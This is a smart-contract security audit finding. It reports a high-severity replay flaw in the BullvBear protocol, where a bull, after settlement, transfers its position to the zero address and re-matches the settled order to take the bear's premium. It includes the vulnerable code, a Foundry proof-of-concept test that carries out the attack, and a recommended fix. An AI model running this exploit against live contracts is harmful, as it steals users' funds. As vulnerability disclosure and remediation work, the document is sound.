 KingNFT

high

# [H-01] Bull can replay a settled contract

## Summary
Bull as taker can replay a settled contract.

## Vulnerability Detail
attack vector
(1) a contract is settled by bear
(2) bull call 'transferPosition()' with parameter 'recipient = address(0)'
(3) bull call 'matchOrder()' to replay the settled contract

https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L760
https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L521
## Impact
Bull is likely to steal as much as 'premium' amount of fund from bear's account.

## Code Snippet
Related source code
```solidity
function checkIsValidOrder(Order calldata order, bytes32 orderHash, bytes calldata signature) public view {
    
    // ...
    require(bulls[uint(orderHash)] == address(0), "ORDER_ALREADY_MATCHED"); // @audit risk produced here
}

function transferPosition(bytes32 orderHash, bool isBull, address recipient) public {
    uint contractId = uint(orderHash);

    if (isBull) {

        require(msg.sender == bulls[contractId], "SENDER_NOT_BULL");

        // @audit no check for recipient
        bulls[contractId] = recipient;
    } else {

        require(msg.sender == bears[contractId], "SENDER_NOT_BEAR");
        bears[contractId] = recipient;
    }

    emit TransferedPosition(orderHash, isBull, recipient);
}
```

Test case to prove this problem, put it into 'exploit.t.sol' file of 'test' directory.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.4;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

import {Base} from "./Base.t.sol";

import {BvbProtocol} from "src/BvbProtocol.sol";

contract ReplaySettledContract is Base {
    function setUp() public {
        bvb.setAllowedAsset(address(weth), true);
        bvb.setAllowedCollection(address(doodles), true);

        deal(address(weth), bull, 0xffffffff);
        deal(address(weth), bear, 0xffffffff);
        vm.prank(bull);
        weth.approve(address(bvb), type(uint).max);

        vm.prank(bear);
        weth.approve(address(bvb), type(uint).max);
    }

    function testReplaySettledContract() public {
        BvbProtocol.Order memory order = defaultOrder();
        order.maker = bear;
        order.isBull = false;

        bytes32 orderHash = bvb.hashOrder(order);

        // Sign the order
        bytes memory signature = signOrderHash(bearPrivateKey, orderHash);

        // Taker (Bull) match with this order
        vm.prank(bull);
        bvb.matchOrder(order, signature);

        // Give a NFT to the Bear + approve
        uint tokenId = 1234;
        doodles.mint(bear, tokenId);
        vm.prank(bear);
        doodles.setApprovalForAll(address(bvb), true);

        // Settle the contract
        vm.prank(bear);
        bvb.settleContract(order, tokenId);

        // Attack begin
        vm.startPrank(bull);
        bvb.transferPosition(orderHash, true, address(0));
        bvb.matchOrder(order, signature);
        vm.stopPrank();
    }
}
```

## Tool used

Manual Review

## Recommendation

```solidity
function checkIsValidOrder(Order calldata order, bytes32 orderHash, bytes calldata signature) public view {
    
    // ...
    require(matchedOrders[uint(orderHash)].validity == 0, "ORDER_ALREADY_MATCHED"); // @audit fix as this
}
```
